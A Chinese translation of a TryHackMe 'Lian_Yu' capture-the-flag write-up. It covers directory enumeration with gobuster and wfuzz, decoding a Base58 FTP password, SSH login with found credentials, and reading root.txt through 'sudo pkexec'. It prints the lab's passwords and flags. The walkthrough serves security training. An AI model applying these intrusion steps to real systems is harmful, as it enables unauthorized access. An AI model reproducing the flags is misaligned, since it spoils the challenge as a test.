 # Lian _ Yu-TryHackMe 作者:Karthikeyan

> 原文：<https://infosecwriteups.com/lian-yu-ae415d1f6fc7?source=collection_archive---------3----------------------->

## 初级安全挑战

![](img/d482622bc946241a241d499c9d5edfe8.png)

# 任务 1 —找到旗帜

1.  部署虚拟机并启动枚举
2.  你找到的网页目录是什么？

```
Hint: gobuster dir -e -u [http://10.10.26.241/](http://10.10.26.241/) -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

![](img/0b5d65ce7bb4e16d126595eb4baad1cc.png)![](img/99104fb6b2f1d0e53c37db3c4fb90323.png)

Ctrl + A

![](img/fcb42b8e0b14995c97d0a1ee6289e801.png)

```
Ans: 2100
```

3.你找到的文件名是什么？

使用 wfuzz 查找文件名

```
wfuzz -u [http://10.10.99.170/island/2100/FUZZ.ticket](http://10.10.99.170/island/2100/FUZZ.ticket) -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c — hc 404
```

![](img/3e4475dd6f2cf97a2a2273e4e9f6fc45.png)

```
Ans: green_arrow.ticket
```

4.FTP 密码是什么？

破译密码

![](img/67f10b531beaace3b1bec5bc1d3a2992.png)

看起来像 Base58

![](img/b6f34c65af6b506e41dcacba1c1977d0.png)

```
Ans: !#th3h00d
```

5.带 SSH 密码的文件名是什么？

让我们使用找到的凭证在 Ftp 中登录并下载文件，

```
Username: Vigilante
Password: !#th3h00d
```

![](img/a6daefff89ea568e73cba0cddf353399.png)

让我们提取信息！！！

使用 GHex 让我们修复损坏的 PNG 文件

![](img/4178c6eee35fe0ec4d0eb52146ed69a6.png)![](img/8a1181df2ccc9fd1b936ca0940da683e.png)![](img/44e36b1af8c5fc709d646b6ac2d28d13.png)![](img/4926082008abebce71e2fb696a50834d.png)

我们找到了两个文件 password.txt 和 shado。关隘在沙多

```
Ans: shado
```

6.user.txt

让我们通过找到的凭证登录，

```
Username: slade
password: M3tahuman
```

![](img/b97447ebc6766e54abdd4b16195bf610.png)![](img/3362961955e064e400df6b88a245ac37.png)

```
Ans: THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N’T}
```

7.root.txt

让我们使用 pkexec 来查看根目录中的 root.txt，使用命令

```
sudo /usr/bin/pkexec cat /root/root.txt
```

![](img/84709c467b4a58d959b1e6636eafb2cb.png)

感谢您的阅读！！！

黑客快乐！！

```
Author - Karthikeyan N | Cyberw1ng
```

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！